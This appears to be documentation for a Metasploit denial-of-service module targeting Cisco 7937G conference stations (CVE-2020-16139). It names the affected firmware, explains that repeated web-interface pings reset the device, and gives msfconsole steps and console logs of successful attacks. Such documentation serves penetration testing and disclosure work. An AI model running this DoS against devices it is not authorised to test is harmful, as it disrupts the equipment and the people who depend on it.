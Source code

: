 ## Vulnerable Application

  [Cisco 7937G](https://www.cisco.com/c/en/us/support/collaboration-endpoints/unified-ip-conference-station-7937g/model.html) Conference Station.
  This module has been tested successfully against firmware versions SCCP-1-4-5-5 and SCCP-1-4-5-7.
 
### Description
 
This module exploits a bug in how the conference station handles executing a ping via it's web interface. By repeatedly executing the ping function without clearing out the resulting output, a DoS is caused that will reset the device after a few minutes. 

## Verification Steps

  1. Obtain a Cisco 7937G Conference Station.
  2. Enable Web Access on the device (default configuration).
  3. Start msfconsole
  4. Do: `use auxiliary/dos/cisco/cve_2020_16139`
  5. Do: `set rhost 192.168.1.10`
  6. Do: `run`
  7. The conference station should become nonresponsive and then power cycle itself.

## Scenarios

### Cisco 7937G Running Firmware Version SCCP-1-4-5-7
```
msf5 > use auxiliary/dos/cisco/cve_2020_16139
msf5 auxiliary(dos/cisco/cve_2020_16139) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cve_2020_16139) > run

[*] Starting server...
[*] 192.168.110.209 - Sending DoS Packets. Stand by.
[*] 192.168.110.209 - DoS reset attack completed!
[*] Auxiliary module execution completed
```

### Cisco 7937G Running Firmware Version SCCP-1-4-5-5
```
msf5 > use auxiliary/dos/cisco/cve_2020_16139
msf5 auxiliary(dos/cisco/cve_2020_16139) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cve_2020_16139) > run

[*] Starting server...
[*] 192.168.110.209 - Sending DoS Packets. Stand by.
[*] 192.168.110.209 - DoS reset attack completed!
[*] Auxiliary module execution completed
```
